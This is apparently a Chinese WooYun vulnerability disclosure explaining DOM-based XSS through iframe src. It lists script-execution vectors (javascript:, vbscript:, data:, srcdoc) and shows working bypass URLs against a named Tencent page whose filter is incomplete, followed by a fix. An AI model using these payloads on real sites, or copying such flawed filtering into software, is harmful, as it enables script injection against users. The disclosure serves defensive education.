





# 11\. Dom Xss 进阶 [善变 iframe]

> 来源：[11\. Dom Xss 进阶 [善变 iframe]](http://www.wooyun.org/bugs/wooyun-2010-016223)

## 简要描述

有时候，输出还会出现在 `<iframe src="[输出]"></iframe>` 。 iframe 的 src 属性本来应该是一个网址，但是 iframe 之善变，使得 它同样可以执行 javascript，而且可以用不同的姿势来执行。这一类问题，我将其归为[路径可控]问题。当然上面说到的是普通的反 射型 XSS。有时候程序员会使用 javascript 来动态的改变 iframe 的 src 属性，譬如：`iframeA.src="[可控的 url]";` 同样会导致 XSS 问题，来看看本例吧～

## 详细说明

1\. 先来说说 iframe 的变化。

1.1 最好懂的，onload 执行 js

```
<iframe onload="alert(1)"></iframe> 
```

1.2 src 执行 javascript 代码

```
<iframe src="javascript:alert(1)"></iframe> 
```

3\. IE 下 vbscript 执行代码

```
<iframe src="vbscript:msgbox(1)"></iframe> 
```

1.4 Chrome 下 data 协议执行代码

```
<iframe src="data:text/html,<script>alert(1)</script>"></iframe> Chrome 
```

1.5 上面的变体

```
<iframe src="data:text/html,<script>alert(1)</script>"></iframe> 
```

1.6 Chrome 下 srcdoc 属性

```
<iframe srcdoc="<script>alert(1)</script>"></iframe> 
```

2\. 有兴趣的，可以一个一个的去测试上面的效果，注意浏览器的特异性哦。

3\. 接着我们来看看具体的例子。

```
http://helper.qq.com/appweb/tools/tool-detail.shtml?turl=aaaaaa&gid=yl&cid=68&from= 
```

4\. 我们先开调试工具，看看有没有可见的输出。



可以看到，我们参数的 aaaaaa 被带入到了`<iframe src="这里"></iframe>`。

这样一来，就满足了我们的使用条件。 我们试试

```
http://helper.qq.com/appweb/tools/tool-detail.shtml?turl=javascript:alert(1);&gid=yl&cid=68&from= 
```

。。竟然没反应。我们来看看刚才的那个地方。



可以看到，src 这次没属性了，看来腾讯做了什么过滤。我们继续搜索下一个 toolframe 试试。

恩，看来就是这段代码导致的。



一起看看这段代码。

```
function OpenFrame(url) {
    if (url.toLowerCase().indexOf('http://') != '-1' || 
        url.toLowerCase().indexOf('https://') != '-1' || 
        url.toLowerCase().indexOf('javascript:') != '-1') 
        return false; 
    document.getElementById("toolframe").src = url;
} 
```

不难看出，腾讯对 javascript:做出了判断。

```
document.getElementById("toolframe").src = url; 
```

这句是导致 XSS 的一句代码。而 openFrame 的 url 参数则来自于(无关代码省略)：

```
...
var tool_url = getQueryStringValue("turl");
...
openFrame(tool_url);
... 
```

5\. 根据我们上面说道的 iframe 的利用方法，我们不难看出，腾讯的过滤是不完善的。

在 IE 下，我们可以使用 vbscript 来执行代码。 vbscript 里 ' 单引号表示注释，类似 JS 里的`//`

```
http://helper.qq.com/appweb/tools/tool-detail.shtml?turl=vbscript:msgbox(1)'&gid=yl&cid=68&from= 
```



```
http://helper.qq.com/appweb/tools/tool-detail.shtml?turl=data:text/html,<script>alert(1)</script>'&gid=yl&cid=68&from= 
```



6\. 就到这里。

## 修复方案

危险的不光是 javascript:， vbscript:, data: 等同样需要过滤。